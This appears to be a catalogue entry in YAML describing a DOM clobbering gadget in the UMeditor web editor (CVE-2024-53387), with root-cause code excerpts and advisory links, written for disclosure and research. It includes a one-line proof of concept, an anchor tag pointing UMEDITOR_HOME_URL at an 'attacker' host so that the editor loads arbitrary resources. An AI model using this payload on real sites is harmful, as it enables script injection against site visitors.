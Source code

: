 ```yaml
---
description: UMeditor, referred to as UM, is a simplified version of [ueditor](https://github.com/fex-team/ueditor). It is an online rich text editor specially customized to meet the needs of portal websites for simple post boxes and reply boxes.
github: fex-team/umeditor
gadgets:
  ≤1.2.2:
    cve: CVE-2024-53387
    authors:
      - github:jackfromeast
      - github:ishmeals
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - a-tag
      - id-attr
      - strict-dynamic-csp
      - before-lib-load
    pocs:
      - description: The UMeditor library was relying on the `#UMEDITOR_HOME_URL` anchor to configure its base URL for loading resources. By clobbering it, it was possible to load arbitrary ressources.
        code: |
          <a id="UMEDITOR_HOME_URL" href="http://attacker/"></a>
        preview: false
    more-info: |
      **Root Cause**

      Source: <a target="_blank" href="https://github.com/fex-team/umeditor/blob/cc30bd9f2207340e94d51d09b57185e2f5099f46/umeditor.config.js#L22">https://github.com/fex-team/umeditor/blob/cc30bd9f2207340e94d51d09b57185e2f5099f46/umeditor.config.js#L22</a>

      ```javascript
      var URL = window.UMEDITOR_HOME_URL ||
      ```

      Source: <a target="_blank" href="https://github.com/fex-team/umeditor/blob/cc30bd9f2207340e94d51d09b57185e2f5099f46/umeditor.config.js#L133">https://github.com/fex-team/umeditor/blob/cc30bd9f2207340e94d51d09b57185e2f5099f46/umeditor.config.js#L133</a>

      ```javascript
      window.UMEDITOR_CONFIG = {

          //为编辑器实例添加一个路径，这个不能被注释
          UMEDITOR_HOME_URL : URL
      ```
    links:
      - https://github.com/advisories/GHSA-35g5-m5m3-r8mx
      - https://gist.github.com/jackfromeast/d52c506113f33b8871d0e647411df894
      - https://github.com/jackfromeast/dom-clobbering-collection/blob/main/domc-gadgets/umeditor.md
      - https://github.com/fex-team/umeditor/blob/30b87925e7c725ec1ec6c487d4d80967cbcb58e3/umeditor.config.js#L26-L42
      - https://jackfromeast.github.io/assets/DOMinoEffect.pdf
---
```

